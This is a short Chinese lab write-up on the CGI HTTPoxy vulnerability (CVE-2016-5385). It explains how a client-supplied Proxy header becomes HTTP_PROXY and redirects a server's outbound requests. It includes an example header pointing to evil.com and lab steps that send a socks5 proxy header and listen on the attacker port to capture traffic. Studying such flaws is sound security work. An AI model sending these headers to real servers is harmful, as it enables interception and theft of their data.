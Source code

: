 # CGI HTTPoxy漏洞

> 漏洞说明

httpoxy是cgi中的一个环境变量；而服务器和CGI程序之间通信，一般是通过进程的环境变量和管道。

根据 RFC 3875 规定，cgi（fastcgi）要将用户传入的所有 HTTP 头都加上 HTTP_前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的 HTTP_PROXY 值作为 HTTP 代理地址。于是，恶意用户通过提交 Proxy: http://evil.com 这样的 HTTP 头，将使用缺陷类库的网站的代理设置为 http://evil.com，进而窃取数据包中可能存在的敏感信息。



> 前提条件



> 利用工具



> 漏洞复现

搭建靶场环境，访问http://192.168.40.77:8080/index.php

![image-20221218201928216](../img/CGI-HTTPoxy_CVE-2016-5385/image-20221218201928216.png)

请求包添加代理Proxy: socks5://192.168.40.1:7890/访问可以看到Origin已经变成代理地址

![image-20221218203703096](../img/CGI-HTTPoxy_CVE-2016-5385/image-20221218203703096.png)

监听192.168.40.1的7890端口即可捕获请求数据包